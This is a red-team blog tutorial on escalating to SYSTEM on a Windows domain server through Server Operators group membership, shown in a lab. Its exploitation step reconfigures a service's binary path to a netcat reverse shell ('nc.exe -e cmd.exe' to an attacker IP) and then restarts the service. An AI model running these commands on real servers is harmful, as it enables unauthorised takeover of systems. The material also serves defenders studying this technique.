 ```yaml
---
title: "Domain Privilege Escalation Server Operator Group"
date: 2024-02-12 00:00:00 +0000
categories: 
  - Domain Privilege Escalation
  - Active Directory
  - RedTeam
---
```


The Windows Server operating system uses two types of security principals for authentication and authorization: user accounts and computer accounts. These accounts are created to represent physical entities, such as people or computers, and can be used to assign permissions to access resources or perform specific tasks. Additionally, security groups are created to include user accounts, computer accounts, and other groups, in order to make it easier to manage permissions. The system comes pre-configured with certain built-in accounts and security groups, which are equipped with the necessary rights and permissions to carry out functions.

### Introduction to windows privileged groups

In Active Directory, privileged groups are also known as security groups. Security groups are collections of user accounts that have similar security requirements. By placing user accounts into appropriate security groups, administrators can grant or deny access to network resources in bulk. Security groups can be used to grant or deny access to network resources, such as shared folders, printers, and applications. They can also be used to assign permissions to user accounts, such as the ability to create, delete, or modify files.



### What is Server operator group

(Members can modify services, access SMB shares, and backup files)
The Server Operator group is a special user group that often has access to powerful commands and settings on a computer system. This group is typically used for managing a server or for troubleshooting system problems. Server Operators are usually responsible for monitoring the server’s performance, managing system security, and providing technical support to users. They may also oversee installing software updates, creating and maintaining user accounts, and performing routine maintenance tasks.

### Lab Configuration

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-1.png)](https://r00tven0m.github.io/)

Let’s configure the lab on the server to apply theory and escalated windows server privileges. Go to server manager dashboard then click on “**Tools**” then select “**Active Directory Users and Computers**”

We are going to add a user aarti to the active directory security group for the demonstration. To do that, go to **“users**” select “**carole.rose**” and click on “**properties**”.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-2.png)](https://r00tven0m.github.io/)
That will open a new window where we need to click on the “ **member of** “ tab and then click on the “**add**” button to add user to any specific group.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-3.png)](https://r00tven0m.github.io/)


A new window will open where we need to select object types as “**Groups or Built-in security principals**” and select location to domain name which is “**cbank. local**” here. Then, we need to enter object name which is the group to that we wish to add user to. In this case, we are using the **server operators’** group then click ok.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-4.png)](https://r00tven0m.github.io/)


We can verify whether a user is added to the server operators’ group by simply clicking on the **members of** tab. We can see that we have successfully added user carole.rose to server operators’ group.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-5.png)](https://r00tven0m.github.io/)


We end up with our lab set up here and logged in as low privileged user in the server where we can see user carole.rose is in the server operators’ group. In this example, we have connected to the compromised host using the winrm service using the evil-winrm tool. To check group permission, we can simply use the inbuilt command "net user username", it will show what groups the current user belongs to. To reproduce the concept, please follow the commands below
[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-6.png)](https://r00tven0m.github.io/)


Being a member of server operator group is not a vulnerability, but the member of this group has special privileges to make changes in the domain which could lead an attacker to escalate to system privilege. We listed services running on the server by issuing “**services**” command in our terminal where we can see list of services are there. Then we noted the service name “**WazuhSvc**” and service binary path for lateral usage.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-7.png)](https://r00tven0m.github.io/)

### Exploitation

Then we transferred **netcat.exe** binary to the compromised host and changed the binary path of the service. The reason we are changing the binary path is to receive a reverse connection as system user from the compromised hosts.

**How it works?**

When we start any service then it will execute the binary from its binary path so if we replace the service binary with netcat or reverse shell binary then it will give us a reverse shell as a system user because the service is starting as a system on the compromised host. Please note, we need to specify the attacker’s IP address and listening port number with the netcat binary.

Steps to reproduce the POC:

```bash
upload nc.exe
sc.exe config WazuhSvc binPath="C:\Users\carole.rose.CBANK\Documents\nc.exe -e cmd.exe 192.168.56.1 9001"
```
[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-8.png)](https://r00tven0m.github.io/)

Then we will stop the service and start it again. So, this time when service starts, it will execute the binary that we have set in set earlier. Please, set up a netcat listener on the kali system to receive system shell before starting service and service start and stop commands from compromised hosts.

```bash
nc -nvlp 9001
sc.exe stop WazuhSvc
sc.exe start WazuhSvc
```
[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-9.png)](https://r00tven0m.github.io/)

We have received a reverse shell from the compromised host as **nt authority\system**. To verify it simply run “**whoami**” command.


[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Server Operator/2024-02-12-10.png)](https://r00tven0m.github.io/)
